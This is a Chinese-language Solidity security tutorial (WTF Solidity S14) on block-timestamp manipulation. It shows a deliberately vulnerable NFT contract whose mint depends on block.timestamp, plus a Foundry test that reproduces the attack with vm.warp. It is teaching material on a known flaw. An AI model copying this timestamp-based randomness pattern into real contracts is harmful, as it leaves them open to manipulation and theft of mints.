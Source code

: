 ```yaml
---
title: S14. 操纵区块时间
tags:
- solidity
- security
- timestamp
---
```


# WTF Solidity 合约安全: S14. 操纵区块时间

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的操纵区块时间攻击，并使用 Foundry 复现。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。

## 区块时间

区块时间（block timestamp）是包含在以太坊区块头中的一个 `uint64` 值，代表此区块创建的 UTC 时间戳（单位：秒），在合并（The Merge）之前，以太坊会根据算力调整区块难度，因此出块时间不定，平均 14.5s 出一个区块，矿工可以操纵区块时间；合并之后，改为固定 12s 一个区块，验证节点不能操纵区块时间。

在 Solidity 中，开发者可以通过全局变量 `block.timestamp` 获取当前区块的时间戳，类型为 `uint256`。

## 漏洞例子

此例子由[WTF Solidity合约安全: S07. 坏随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/S07_BadRandomness)中的合约改写而成。我们改变了 `mint()` 铸造函数的条件：当区块时间能被 170 整除时才能成功铸造：

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Foundry复现攻击

攻击者只需操纵区块时间，将它设为能被 170 整除的数字，就可以成功铸造 NFT。我们选择 Foundry 来复现这个攻击，因为它提供了修改区块时间的作弊码（cheatcodes）。如果你不了解 Foundry/作弊码，可以阅读 [Foundry教程](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) 和 [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes)。

代码大致逻辑

1. 创建一个 `TimeManipulation` 合约变量 `nft`。
2. 创建一个钱包地址 `alice`。
3. 使用作弊码 `vm.warp()` 将区块时间改为 169，由于不能被170整除，铸造失败。
4. 使用作弊码 `vm.warp()` 将区块时间改为 17000，由于可以被170整除，铸造成功。

代码：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库：

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

将这一讲的代码分别复制到`src`和`test`目录下，然后使用下列命令启动测试用例：

```shell
forge test -vv --match-test testMint
```

输出如下：

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

我们可以看到，当我们将`block.timestamp` 修改为 17000时，铸造成功。

## 总结

这一讲，我们介绍了智能合约的操纵区块时间攻击，并使用 Foundry 复现了它。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
